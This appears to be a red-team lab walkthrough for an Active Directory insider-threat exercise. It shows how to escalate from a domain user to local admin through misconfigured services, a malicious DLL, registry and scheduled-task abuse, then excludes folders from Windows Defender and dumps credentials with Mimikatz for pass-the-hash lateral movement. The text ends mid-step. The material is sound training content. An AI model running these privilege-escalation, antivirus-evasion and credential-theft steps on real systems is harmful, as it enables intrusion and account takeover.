

# Inside Job

## Case

Megacorp, a very large company, has recently acquired several SMEs (Small and Medium-sized Enterprises). Being highly risk-averse and serious about their security posture, Megacorp is conducting multiple simultaneous security assessments.

- [Inside Job](#inside-job)
  - [Case](#case)
    - [Task Overview](#task-overview)
    - [Rules of Engagement](#rules-of-engagement)
    - [Lab Environment Setup](#lab-environment-setup)
    - [Lab Session Guidelines](#lab-session-guidelines)
  - [Reconnaissance](#reconnaissance)
    - [Initial Enumeration of the Environment](#initial-enumeration-of-the-environment)
    - [User Enumeration](#user-enumeration)
    - [Group Enumeration](#group-enumeration)
    - [Privilege Information](#privilege-information)
    - [Identifying Non-Default Applications](#identifying-non-default-applications)
    - [Network Reconnaissance "Using Angry IP Scanner"](#network-reconnaissance-using-angry-ip-scanner)
    - [Identifying Potential Third-Party Services](#identifying-potential-third-party-services)
    - [Scheduled Tasks in "Tasks Migrated" Folder](#scheduled-tasks-in-tasks-migrated-folder)
  - [Resource Development](#resource-development)
    - [Get Sysinternals Suite](#get-sysinternals-suite)
  - [Privilege Escalation](#privilege-escalation)
    - [RemoteMouseService (CVE-2021-35448)](#remotemouseservice-cve-2021-35448)
    - [Unquoted Service Path](#unquoted-service-path)
    - [Insecure Registry Service](#insecure-registry-service)
    - [File Permission Service](#file-permission-service)
    - [DLL Hijack Service](#dll-hijack-service)
    - [DACL Service](#dacl-service)
    - [Scheduled Tasks (pinger)](#scheduled-tasks-pinger)
    - [Verify Local Admin Access](#verify-local-admin-access)
  - [Defense Evasion](#defense-evasion)
    - [Folder Exclusion in Windows Defender UI](#folder-exclusion-in-windows-defender-ui)
    - [Folder Exclusion in Windows Defender PowerShell](#folder-exclusion-in-windows-defender-powershell)
  - [Lateral Movement](#lateral-movement)
    - [Get Mimikatz](#get-mimikatz)
    - [Using Pass-the-Hash (PTH) Attack](#using-pass-the-hash-pth-attack)
    - [Transferring Tools](#transferring-tools)
    - [Extract the Domain Admin NTLM Hash](#extract-the-domain-admin-ntlm-hash)
    - [Use Pass-the-Hash to Access the Domain Controller](#use-pass-the-hash-to-access-the-domain-controller)
    - [Dump All Hashes from Active Directory](#dump-all-hashes-from-active-directory)

### Task Overview

Your assignment is to assess the **insider threat** scenario through a red-team exercise. Your objectives are:

- **Discover and exploit** all identifiable security issues.
- **Escalate privileges** from a low-privileged domain user to demonstrating control over the Active Directory environment.
- **Uncover** as many exploitation paths as possible.

> **Note:** There are no extra points for finishing quickly; the client expects a thorough examination of the environment.

### Rules of Engagement

You may use any tools or techniques available, provided you adhere to the following rules:

1. **Domain Controller Restrictions:**
   - Do **not** shutdown, reboot, crash, or otherwise disrupt the domain controller.
2. **Admin Workstation Restrictions:**
   - Do **not** log on locally to Tom's admin workstation; however, you may connect over the network.
   - Do **not** shutdown, reboot, or crash the admin workstation.
   - Do **not** terminate the admin's active session.

> We do not expect perfect stealth, but actions violating these rules generate excessive noise.

### Lab Environment Setup

Follow these steps to start the VirtualBox lab environment:

1. **Start the Domain Controller VM (`win2019srv`):**
   - Launch from the saved snapshot. If the current state differs from the snapshot, revert to the snapshot first.
   - The domain controller VM will start in a minimized window.
2. **Start the Admin VM (`win10adm`):**
   - Launch from the saved snapshot. Again, if the current state differs from the snapshot, revert to the snapshot first.
   - The VM should start up and display a user logged in with the screen locked.
3. **Start Your Workstation (`win10client`):**

   - Log in using the following credentials:

     ```plaintext
     Username: normaluser
     Display Name: Norman Luserov
     Password: L3tm3!n
     ```

### Lab Session Guidelines

Each lab session will involve extensive research and experimentation. You are encouraged to test any tools or methods you discover. However, exercise caution when using pre-built tools from online sources, as some may cause system instability. If you damage your VM, revert to the snapshot and start over.

Further instructions will be provided at the beginning of each session. A team sync-up will occur at the end of each session to share ideas, successes, and failures.

> **Tip:** If you become completely stuck, do not hesitate to ask for a hint.


---

## Reconnaissance

### Initial Enumeration of the Environment

```bash
C:\Users\normaluser>whoami
adlab\normaluser
```

We have established the current user context as adlab\normaluser. This is a domain user account that will serve as our starting point for further enumeration and privilege escalation.

```bash
C:\Users\normaluser>hostname
win10client
```

The system's hostname is confirmed to be `win10client`, which matches the earlier information from `systeminfo`.

```bash
C:\Users\normaluser>systeminfo
```

The system information reveals critical details about the host:

- **Hostname:** WIN10CLIENT
- **OS:** Windows 10 Pro (Version 19045)
- **Domain:** ADLAB.local
- **Network Adapters:**
  - IP Address: `192.168.56.40`

From this output, we gather that the system is part of the `ADLAB.local` domain, and the primary active network interface is operating in the `192.168.56.0/24` range. This will be the primary focus for network exploration and potential lateral movement.

```bash
echo %logonserver%
```

The domain controller is `\\WIN2019DC`, a critical target for future exploitation steps.

### User Enumeration

We use the `net user` command to enumerate domain users.

```bash
C:\Users\normaluser>net user /domain
```

A long list of users is returned. Some notable accounts to consider during further exploration include:

- **Administrator**
- **Normaluser** (our current user)
- **sqlserver**
- **chantalle.karol** (listed as a Domain Admin)
- **domad** (another Domain Admin)

This enumeration will be helpful in identifying potential lateral movement or privilege escalation targets.

### Group Enumeration

Next, we enumerate domain groups to understand group memberships and potential privileges.

```bash
C:\Users\normaluser>net group /domain
```

We observe some key groups, such as:

- **Domain Admins**
- **Enterprise Admins**
- **IT Admins**
- **Executives**
- **Office Admin**

We also confirm that `chantalle.karol` and `domad` are part of the `Domain Admins` group, making them prime targets for credential theft or impersonation.

### Privilege Information

```bash
C:\Users\normaluser>net group "domain admins" /domain
```

The Domain Admins group members are:

- **Administrator**
- **chantalle.karol**
- **domad**
- **sqlserver**

This confirms our earlier findings and highlights potential high-value targets for privilege escalation.

---

### Identifying Non-Default Applications

To identify third-party or non-default applications that could potentially be exploited, we inspected the installed applications via the **Settings > Apps > Apps & features** menu.


During this process, we discovered the presence of **Angry IP Scanner**, a network scanning tool, which could be useful for gaining further insight into the network's structure and identifying potential targets for lateral movement.

Screenshot of the installed application list revealed:

- **Angry IP Scanner** (Version 3.9.1), which could be leveraged for reconnaissance.

### Network Reconnaissance "Using Angry IP Scanner"

Since `Angry IP Scanner` is already installed on the workstation, we leverage it to scan the local network.


The scan results for the `192.168.56.0/24` subnet reveal several hosts, including:

- **WIN2019DC (192.168.56.10):** The domain controller
- **win10adm (192.168.56.30):** The admin workstation
- **win10client.ADLAB.local (192.168.56.40):** Our current workstation

These hosts represent the core environment we need to explore. The domain controller and the admin workstation are key systems to focus on for privilege escalation.

---

### Identifying Potential Third-Party Services

We explored services to identify potential vulnerable or third-party services.

1. **Open the Services Manager**:

   - Press **⊞ Win + R** to open the **Run** dialog.
   - Type `Services.msc` and hit **Enter**.

2. **Sort Services by Description**:
   - Once in the Services Manager, sort the services by their description to locate services that lack a description or that seem non-standard. These are likely third-party services or custom configurations.



By following these steps, we identified several non-default services that lack descriptions, which could be potentially exploitable:

- **Unquoted Path Service**
- **RemoteMouseService**
- **Insecure Registry Service**
- **File Permission Service**
- **DLL Hijack Service**
- **DACL Service**

> **Note:** Third-party services may or may not have a description. Just because a service has a description doesn’t mean it’s safe, and conversely, the absence of a description could indicate a non-standard service that might be exploitable.
> **Tip:** Pay attention to services running under a named user account.

These services run with **Local System** privileges, presenting potential privilege escalation paths if vulnerabilities like unquoted service paths or weak permissions are present.

### Scheduled Tasks in "Tasks Migrated" Folder

Check for misconfigured scheduled tasks that can escalate privileges.

1. **Go to the Folder**:

   - Open the **Tasks Migrated** folder by running:

     ```bash
     cd C:\Windows\Tasks Migrated
     ```

2. **List the Files**:

   - See what's inside by typing:

     ```bash
     dir
     ```

   - You’ll see files representing scheduled tasks, for example:

     ```bash
     pinger
     MicrosoftEdgeUpdateTaskMachineCore
     OneDrive Reporting Task...
     ```

3. **View Task Details**:

   - Use the `type` command to look inside a task. For example:

     ```bash
     type pinger
     ```

   This shows information about who runs the task and what it does. Key things to look for:

   - **Author**: The user who created the task (e.g., `Administrator`).
   - **Triggers**: When the task runs (e.g., at logon).
   - **Actions**: The command it runs (e.g., `pinger.bat` script).

> **Note:** Knowing who created the task is important because it tells you what level of privileges the task has when it runs.

---

## Resource Development

### Get Sysinternals Suite

**Sysinternals** provides a suite of tools useful for lateral movement and system investigation.

1. **Download Sysinternals ZIP File**

   In **cmd**, use `curl` to download the **Sysinternals Suite** to your `Downloads` folder:

   ```bash
   curl -o Downloads\SysinternalsSuite.zip https://download.sysinternals.com/files/SysinternalsSuite.zip
   ```

   In **PowerShell**, use `Invoke-WebRequest` to download the suite:

   ```powershell
   Invoke-WebRequest -Uri "https://download.sysinternals.com/files/SysinternalsSuite.zip" -OutFile "$HOME\Downloads\SysinternalsSuite.zip"
   ```

   Both commands will download the **Sysinternals Suite** and save it as `SysinternalsSuite.zip` in the `Downloads` folder.

2. **Create Destination Folder** (If Needed)

   If the folder for **Sysinternals** does not exist, create it before extracting:

   In **cmd**, use `mkdir`:

   ```bash
   mkdir Downloads\SysinternalsSuite
   ```

   In **PowerShell**, use `New-Item`:

   ```powershell
   New-Item -Path "$HOME\Downloads\SysinternalsSuite" -ItemType Directory
   ```

3. **Extract Sysinternals ZIP File**

   In **cmd**, use `tar` to extract the **SysinternalsSuite.zip** file:

   ```bash
   tar -xf Downloads\SysinternalsSuite.zip -C Downloads\SysinternalsSuite
   ```

   In **PowerShell**, use `Expand-Archive` to extract the contents:

   ```powershell
   Expand-Archive -Path "$HOME\Downloads\SysinternalsSuite.zip" -DestinationPath "$HOME\Downloads\SysinternalsSuite"
   ```

   This extracts the **Sysinternals Suite** into the `Downloads\SysinternalsSuite` folder for further use.

---

## Privilege Escalation

Several services running as **Local System** are vulnerable:

- **RemoteMouseService (CVE-2021-35448)**
- **Unquoted Path Service**
- **Insecure Registry Service**
- **File Permission Service**
- **DLL Hijack Service**
- **DACL Service**

One misconfigured task, created by **Administrator**, which can be modified:

- **Scheduled Tasks (pinger)**

Our goal is to exploit these to gain local administrative privileges.

---

### RemoteMouseService (CVE-2021-35448)

The Remote Mouse application lets us open an administrator command prompt.

**Steps:**

1. **Open Settings:**

   - Click the Remote Mouse icon in the system tray.
   - Select **Settings**.

2. **Change Image Transfer Folder:**

   - Click **Change...** next to **Image Transfer Folder**.
   - A **Save As** dialog appears.

3. **Launch Command Prompt:**

   - In the address bar, type:

     ```bash
     C:\Windows\System32\cmd.exe
     ```

   - Press **Enter**.
   - An administrator command prompt opens.

4. **Verify Privileges:**

   ```bash
   C:\Users\normaluser> whoami
   nt authority\system
   ```

5. **Create Admin User:**

   To create a new administrator account, use the following command:

   ```bash
   net user <username> <password> /add && net localgroup administrators <username> /add
   ```

   **Example:**

   ```bash
   net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add
   ```

   - **username**: The desired name for the new account (e.g., `helpdesk`).
   - **password**: The password for the new account (e.g., `L3tm3!n`).

   **Result:**

   This command creates a new user with the specified credentials and adds it to the **Administrators** group, granting elevated privileges.

---

### Unquoted Service Path


This service has an unquoted executable path with spaces, making it vulnerable to privilege escalation. The path is:

`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

**Steps:**

1. **Check Folder Permissions:**

   - Run this command to check who can access and modify files in the folder:

     ```bash
     icacls "C:\Program Files\Unquoted Path Service\Common Files"
     ```

   - Look for the following permission flags in the output:

     - **(F)** – Full control: Can read, write, delete, and change permissions.
     - **(M)** – Modify: Can read, write, and delete files.
     - **(RX)** – Read & Execute: Can read and run files.
     - **(R)** – Read: Can only view the files.
     - **(W)** – Write: Can add files but with limited rights.

   - Focus on whether **BUILTIN\Users**, **Everyone** or other non-admin groups have **(F)** or **(M)** permissions, meaning you can write or modify files. If only **(RX)** or **(R)** is shown, you don’t have the required access.

2. **Create a Batch File:**

   - Write a simple batch file called `Common.bat` with the following content:

     ```bash
     net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add
     ```

   - This will create a user `helpdesk` with administrative rights.

3. **Convert Batch File to Executable:**

   - Use a tool like [bat2exe](https://bat2exe.net/) to convert the batch file into an executable file (`Common.exe`).

4. **Place Executable:**

   - Save the newly created `Common.exe` into:

     ```plaintext
     C:\Program Files\Unquoted Path Service\Common Files\
     ```

5. **Restart the Service:**

   - Restart the vulnerable service to trigger the execution of your malicious file:

     ```bash
     sc stop unquotedsvc
     sc start unquotedsvc
     ```

---

### Insecure Registry Service


We can change the service's executable path in the registry.

**Steps:**

1. **Open Registry Editor:**

   - Press **⊞ Win + R**, type `regedit`, and press **Enter**.

2. **Navigate to Service Key:**

   `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc`

3. **Edit `ImagePath`:**

   - Right-click `ImagePath` and select **Modify**.
   - Change the value to:

     ```bash
     cmd.exe /c net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add
     ```

4. **Restart Service:**

   ```bash
   sc stop regsvc
   sc start regsvc
   ```

---

### File Permission Service


We have write access to the service executable.

`"C:\Program Files\File Permissions Service\filepermservice.exe"`

**Steps:**

1. **Find Service Path:**

   ```bash
   sc qc filepermsvc
   ```

   **BINARY_PATH_NAME:** `"C:\Program Files\File Permissions Service\filepermservice.exe"`

2. **Check Folder Permissions:**

   - Run this command to check who can access and modify the file:

     ```bash
     icacls "C:\Program Files\File Permissions Service\filepermservice.exe"
     ```

   - Look for the following permission flags in the output:

     - **(F)** – Full control: Can read, write, delete, and change permissions.
     - **(M)** – Modify: Can read, write, and delete files.
     - **(RX)** – Read & Execute: Can read and run files.
     - **(R)** – Read: Can only view the files.
     - **(W)** – Write: Can add files but with limited rights.

   - Focus on whether **BUILTIN\Users**, **Everyone** or other non-admin groups have **(F)** or **(M)** permissions, meaning you can write or modify files. If only **(RX)** or **(R)** is shown, you don’t have the required access.

3. **Create a Batch File:**

   - Write a simple batch file called `filepermservice.bat` with the following content:

     ```bash
     net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add
     ```

   - This will create a user `helpdesk` with administrative rights.

4. **Convert Batch File to Executable:**

   - Use a tool like [bat2exe](https://bat2exe.net/) to convert the batch file into an executable file (`filepermservice.exe`).

5. **Replace Executable:**

   ```bash
   copy /Y Z:\filepermservice.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
   ```

6. **Restart Service:**

   ```bash
   sc stop filepermsvc
   sc start filepermsvc
   ```

---

### DLL Hijack Service


A vulnerable service attempts to load a missing DLL, which allows us to escalate privileges by injecting a malicious DLL.

**Steps:**

1. **Identify Missing DLLs:**

   - Use a tool like [ProcMon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to detect which DLLs the service tries to load but cannot find.

   - **Optional Setup:** If you lack administrative privileges to run ProcMon, you can extract `dllhijackservice.exe` and create a service on a machine where you have admin access to investigate its behavior:

     ```bash
     sc create dllsvc binpath="C:\fullpath\to\dllhijackservice.exe"
     ```

   - In ProcMon, configure a filter to focus on the target process:

     - **Column:** Process Name
     - **Relation:** is
     - **Value:** dllhijackservice.exe
     - **Action:** include

   - Upon running the service, ProcMon will show an attempt to load a missing DLL, such as `hijackme.dll`. The service will first search for the DLL in its own directory, for example:

     ```plaintext
     C:\Program Files\DLL Hijack Service\hijackme.dll
     ```

     If the DLL is not found, it will search through directories listed in the system’s **PATH** environment variable.

2. **Create Malicious DLL:**

   - Write a malicious DLL that creates a new user with administrative privileges. Create a file called `hijackme.c` with the following content:

     ```c
     #include <windows.h>

     BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
         if (dwReason == DLL_PROCESS_ATTACH) {
             system("cmd.exe /c net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add");
             ExitProcess(0);
         }
         return TRUE;
     }
     ```

   - Compile the DLL using a cross-compiler:

     - For 64-bit systems:

       ```bash
       x86_64-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll
       ```

     - For 32-bit systems:

       ```bash
       i686-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll
       ```

3. **Deploy the Malicious DLL:**

   - Copy the compiled `hijackme.dll` to the vulnerable service's directory:

     ```bash
     copy Z:\hijackme.dll "C:\Program Files\DLL Hijack Service\"
     ```

4. **Restart the Service:**

   - Restart the service to trigger the malicious DLL:

     ```bash
     sc stop dllsvc
     sc start dllsvc
     ```

---

### DACL Service


The `daclsvc` service has improper permissions that allow unauthorized users to modify its configuration due to the **DC** permission (`Change Configuration`) being granted to the **Everyone** group.

**Prerequisites:**

- `accesschk.exe` utility from Sysinternals suite.

**Steps:**

1. **Check Permissions:**

   - Run the following command to view the service's security descriptor:

     ```bash
     acceschk.exe -uwvc "normaluser" *
     ```

   - Look for this specific part of the output:

     ```bash
      Accesschk v6.15 - Reports effective permissions for securable objects
      Copyright (C) 2006-2022 Mark Russinovich
      Sysinternals - www.sysinternals.com
      
      RW daclsvc
              SERVICE_QUERY_STATUS
              SERVICE_QUERY_CONFIG
              SERVICE_CHANGE_CONFIG
              SERVICE_INTERROGATE
              SERVICE_ENUMERATE_DEPENDENTS
              SERVICE_START
              SERVICE_STOP
              READ_CONTROL
     ```

   - **Interpreting the results:**  
     The `SERVICE_CHANGE_CONFIG` permission means that any user, including the "normaluser" in this case, has the right to modify the service's configuration, including its binary path. This exposes the service to exploitation, allowing an attacker to run arbitrary commands with the service's privileges.

2. **Modify Service Path:**

   - Use the following command to change the binary path of the service to execute a command that creates a new user and adds them to the administrators group:

     ```bash
     sc config daclsvc binPath= "cmd.exe /c net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add"
     ```

3. **Restart Service:**

   - Stop and start the service to execute the command:

     ```bash
     sc stop daclsvc
     sc start daclsvc
     ```

---

### Scheduled Tasks (pinger)

We have identified a scheduled task running under an administrative account, and we have permission (Indirect) to modify the script it runs.

**Steps:**

1. **Check File and Folder Permissions**:

   - Ensure you can edit the script or file that the task runs by checking the permissions with the following command:

     ```bash
     icacls C:\temp\pinger.bat
     ```

     Output example:

     ```bash
     pinger.bat NT AUTHORITY\SYSTEM:(F)
                BUILTIN\Administrators:(F)
                BUILTIN\Users:(RX)
     ```

     - In this case, **BUILTIN\Users** only has **(RX)** (Read & Execute) access to the file, meaning regular users can only read and run it but cannot modify it.

   - Next, check the permissions on the folder:

     ```bash
     icacls C:\temp
     ```

     Output example:

     ```bash
     . BUILTIN\Users:(OI)(CI)(F)
       NT AUTHORITY\Authenticated Users:(I)(M)
     ```

     - Here, **BUILTIN\Users** have **(F)** (Full Control) on the folder, meaning you can add, delete, or modify files in this directory, even though the specific file `pinger.bat` cannot be modified directly.

2. **Bypass File Restrictions**:

   - Since you cannot directly modify `pinger.bat`, you can delete the `C:\temp` folder entirely and recreate it with your own script. First, delete the `C:\temp` folder:

     ```bash
     del C:\temp
     ```

     Confirm the deletion when prompted.

   - Recreate the folder and add your own version of the `pinger.bat` file:

     ```bash
     mkdir C:\temp
     echo net user helpdesk L3tm3!n /add > C:\temp\pinger.bat
     echo net localgroup administrators helpdesk /add >> C:\temp\pinger.bat
     ```

3. **Run the Scheduled Task**:

   - If the task is set to run at logon, simply log off and back on to trigger it. Alternatively, run the task manually with:

     ```bash
     schtasks /run /tn "pinger"
     ```

---

### Verify Local Admin Access

Check if the `helpdesk` user has been added with administrative privileges:

```bash
net user
net user helpdesk
net localgroup administrator
```

After completing the steps, you should see this result, which shows that the privilege escalation worked:

```bash
C:\Program Files\Unquoted Path Service>net user
User accounts for \\WIN10CLIENT

Administrator            DefaultAccount           Guest
helpdesk                 WDAGUtilityAccount
The command completed successfully.
```

The `helpdesk` user has been created. You can check its details:

```bash
C:\Program Files\Unquoted Path Service>net user helpdesk
User name                    helpdesk
Account active               Yes
Account expires              Never
Local Group Memberships      *Administrators       *Users
The command completed successfully.
```

You can also verify that `helpdesk` is part of the Administrators group:

```bash
C:\Users\normaluser>net localgroup administrators
Alias name     administrators
Members

ADLAB\IT Admins
Administrator
helpdesk
The command completed successfully.
```

This confirms that the attack has added the `helpdesk` account to the Administrators group, giving it full control of the system.

## Defense Evasion

Avoid being detected by security tools like antivirus programs by exclude folders from being scanned by Windows Defender, using either the graphical interface (Windows Security UI) or PowerShell.

---

### Folder Exclusion in Windows Defender UI

Follow these steps to exclude a folder from Windows Defender scans using the Windows interface:

1. **Open Windows Security:**

   - Go to the **Start menu** and search for **Windows Security**.
   - Click on **Virus & threat protection**.

2. **Manage Settings:**

   - Scroll down and click on **Manage settings** under **Virus & threat protection settings**.

3. **Add Exclusions:**

   - Scroll to **Exclusions** and click **Add or remove exclusions**.

4. **Exclude a Folder:**
   - Click **Add an exclusion**, then choose **Folder**.
   - Select the folder you want to exclude and confirm.

> **Note:** When logging into the system with the local administrator account (e.g., "helpdesk") via the Windows login screen, you must use the **"dot backslash" (`.\`)** notation to specify a local user account rather than a domain account. For example, to log in as the local "helpdesk" account, enter:  
> `.\helpdesk`. This ensures the login is processed against the local **Security Accounts Manager (SAM)** database instead of the domain's Active Directory.

---

### Folder Exclusion in Windows Defender PowerShell

You can also exclude folders using PowerShell. Here’s how:

1. **Open PowerShell as Administrator:**

   - Right-click the **Start menu**, choose **Windows PowerShell (Admin)**.

2. **Add a Folder Exclusion:**

   - Type this command, replacing `"C:\temp"` with the folder you want to exclude:

     ```powershell
     Add-MpPreference -ExclusionPath "C:\temp"
     ```

3. **Check Exclusions:**

   - To see the excluded folders, type:

     ```powershell
     Get-MpPreference | Select-Object -ExpandProperty ExclusionPath
     ```

4. **Remove a Folder Exclusion (Optional):**

   - If you need to remove an exclusion, use this command:

     ```powershell
     Remove-MpPreference -ExclusionPath "C:\Path\To\Your\Folder"
     ```

> **Note:** There is a patch that prevents excluding the root `C:\` drive using PowerShell. However, this can be bypassed by excluding a specific folder within `C:\`, such as `C:\Temp`, as the patch only blocks exclusions ending with `C:\`, not folders inside it.

---

## Lateral Movement

Lateral movement is an important step in an attack, where the attacker moves from one system to another in the network. This usually happens after they get initial access and increase their privileges on a hacked machine. Here, we'll look at ways to move through the network quietly to reach key targets, like the Domain Controller (DC) or admin computers.

### Get Mimikatz

download, extract, and prepare **mimikatz**

1. **Download Mimikatz ZIP File**

   In **cmd**, use the `curl` command to download the file:

   ```bash
   curl -o mimikatz.zip https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
   ```

   In **PowerShell**, use `Invoke-WebRequest`:

   ```powershell
   Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip" -OutFile "mimikatz.zip"
   ```

   Both commands will download the file from the specified URL and save it as `mimikatz.zip` in the current directory.

2. **Create Destination Folder** (If Needed)

   If the destination folder does not exist, you can create it before extracting the archive.

   In **cmd**, use `mkdir`:

   ```bash
   mkdir C:\temp\mimikatz
   ```

   In **PowerShell**, use `New-Item`:

   ```powershell
   New-Item -Path "C:\temp\mimikatz" -ItemType Directory
   ```

   After creating the folder, you can proceed to extract the archive into it.

3. **Extract ZIP File**

   In **cmd**, use `tar` to extract the ZIP file (this works on Windows 10 and later):

   ```bash
   tar -xf mimikatz.zip -C C:\temp\mimikatz
   ```

   In **PowerShell**, use `Expand-Archive` to extract the ZIP file:

   ```powershell
   Expand-Archive -Path "mimikatz.zip" -DestinationPath "C:\temp\mimikatz"
   ```

   This command extracts the contents of `mimikatz.zip` into the specified folder (`C:\temp`). Make sure to replace the path with your desired location.

---

### Using Pass-the-Hash (PTH) Attack

We'll perform a pass-the-hash (PtH) attack using Mimikatz to move laterally from `win10client.ADLAB.local` (192.168.56.40) to `win10adm` (192.168.56.30). The Administrator account uses the same password on both machines, allowing us to reuse the NTLM hash for authentication.

**Prerequisites:**

- Administrative privileges on `win10client`.
- Mimikatz executable available on `win10client`.

**Step 1: Extract the NTLM Hash with Mimikatz**
First, we need to dump the NTLM hash of the Administrator account on `win10client`.

**Command:**

1. Open an elevated command prompt (Run as Administrator).
2. Navigate to the directory containing `mimikatz.exe`.
3. Run Mimikatz:

   ```bash
   .\mimikatz\x64\mimikatz.exe
   ```

   ```text
        .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
       .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
       ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
       ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
        '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

      mimikatz #
   ```

4. In the Mimikatz console, enable debug privileges:

   ```bash
   privilege::debug
   ```

5. Dump the credentials from LSASS:

   ```bash
   sekurlsa::logonpasswords
   ```

**Explanation:**

- `privilege::debug`: Grants the necessary privileges to access system processes.
- `sekurlsa::logonpasswords`: Extracts authentication material from the Local Security Authority Subsystem Service (LSASS).

**Output Interpretation:**

Look for the Administrator account details:

```text
         * Username : Administrator
         * Domain   : WIN10CLIENT
         * NTLM     : af992895db0f2c42a1bc96546e92804a
```

> **Note:** the NTLM hash value; we'll use it in the next step.

---

**Step 2: Perform Pass-the-Hash to Create a New Session**
Use the extracted NTLM hash to create a new session that impersonates the Administrator account.

**Command:**

In the Mimikatz console:

```bash
sekurlsa::pth /user:Administrator /domain:WIN10CLIENT /ntlm:<NTLM_HASH> /run:cmd.exe
```

Example:

```bash
sekurlsa::pth /user:Administrator /domain:WIN10CLIENT /ntlm:af992895db0f2c42a1bc96546e92804a /run:cmd.exe
```

**Replace `<NTLM_HASH>` with the actual hash extracted earlier.**

**Explanation:**

- `sekurlsa::pth`: Initiates a pass-the-hash attack.
- `/user`: The username to impersonate.
- `/domain`: The domain or local machine name.
- `/ntlm`: The NTLM hash of the user's password.
- `/run`: The process to execute under the impersonated account (e.g., `cmd.exe`).

**Result:**

A new command prompt opens with the security context of the Administrator account using the supplied NTLM hash.

**Step 3: Lateral Movement to win10adm**
With the new Administrator session, attempt to access `win10adm` remotely.

**Verification: Using SMB to List Remote Shares:**

```bash
dir \\192.168.56.30\C$
```

**Explanation:**

- Attempts to list the contents of the `C$` administrative share on `win10adm`.

**Using PsExec for a Remote Shell:**
**Prerequisite:** Download PsExec from [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

**Command:**

```bash
C:\temp\Sysinternals\psexec.exe -r processname /accepteula \\192.168.56.30 cmd.exe
```

**Explanation:**

- `psexec.exe`: Executes processes on remote systems.
- `\\192.168.56.30`: Specifies the target machine.
- `-r processname`: Provides a custom process name to bypass restrictions.
- `cmd.exe`: The command to execute on the remote system.

**Achieved Result:**

- A command prompt running on `win10adm` will open.
- You can now execute commands directly on the admin workstation.

We've demonstrated how to use Mimikatz for a pass-the-hash attack to achieve lateral movement from `win10client` to `win10adm` by exploiting a reused Administrator password.

---

### Transferring Tools

In this process, we will use **Mimikatz** to facilitate lateral movement between two systems: `win10client` (192.168.56.40) and `win10adm` (192.168.56.30). We'll open two command prompt windows from the **Mimikatz** session on `win10client`. One of these command prompt windows will use **PsExec** to escalate privileges and become the `win10adm` administrator. We will refer to these command prompt windows throughout the documentation as **win10client** and **win10adm**, respectively.

1. **Create a Temporary Directory on `win10adm`:**

   - Create a directory to store and execute the tools you’ll transfer.

   **Command (win10adm Window):**

   ```bash
   mkdir C:\temp
   ```

   **Explanation:**

   - This creates a directory called `C:\temp` on `win10adm` to store tools like **Mimikatz**.

2. **Exclude the Temporary Directory from Antivirus Scanning:**

   - Add the newly created directory to Windows Defender’s exclusion list to avoid detection of the tools.

   **Command (win10adm Window):**

   ```bash
   powershell -c "Add-MpPreference -ExclusionPath 'C:\temp'"
   ```

   **Explanation:**

   - `Add-MpPreference`: Modifies Windows Defender preferences.
   - `-ExclusionPath`: Specifies `C:\temp` as an exclusion from antivirus scanning, helping to avoid detection of the tools.

3. **Map the `C$` Administrative Share of `win10adm`:**

   - Map the `C$` administrative share of `win10adm` to a local drive (`X:`) on `win10client` to enable file transfers.

   **Command (win10client Window):**

   ```bash
   net use x: \\192.168.56.30\C$
   ```

   **Explanation:**

   - `net use`: Maps a network share.
   - `X:`: Assigns the `C$` administrative share on `win10adm` to drive `X:` on `win10client`.

4. **Navigate to the Temporary Directory on `win10adm`:**

   - After mapping the `C$` share, change the directory on `win10adm` to the temporary folder (`C:\temp`) created earlier.

   **Command (win10client Window):**

   ```bash
   X:
   ```

   ```bash
   cd X:\temp
   ```

   **Explanation:**

   - `X:`: Switches to the mapped `X:` drive, which corresponds to the `C$` share on `win10adm`.
   - `cd X:\temp`: Navigates to the `C:\temp` directory on `win10adm`.

5. **Transfer Tools to `win10adm`:**

   - Copy the **Mimikatz** executable (or other necessary tools) from `win10client` to `C:\temp` on `win10adm`.

   **Command (win10client Window):**

   ```bash
   copy C:\temp\mimikatz\x64\* X:\temp\
   ```

   **Explanation:**

   - `copy`: Copies files from the specified source directory (`C:\path\to\mimikatz\x64\*`) to `C:\temp` on `win10adm` via the mapped drive.

6. **Execute Mimikatz on `win10adm`:**

   - Once the tools are transferred, execute **Mimikatz** on `win10adm` to perform actions such as credential dumping or pass-the-hash attacks.

   **Command (win10adm Window):**

   ```bash
   C:\temp\mimikatz.exe
   ```

   **Explanation:**

   - This command runs **Mimikatz** from the temporary directory on `win10adm`, allowing you to perform further exploitation, such as dumping credentials or lateral movement.

> **Note:** After performing step 5, execute step 6 as soon as possible. Defender may detect **Mimikatz** during transfer, but executing it quickly locks the file, making it harder for Defender to remove.

---

### Extract the Domain Admin NTLM Hash

**Extract the NTLM Hash with Mimikatz**
We need to dump the NTLM hash of the **Domain** Administrator account on `win10adm`.

**Command:**

1. Run Mimikatz:

   ```text
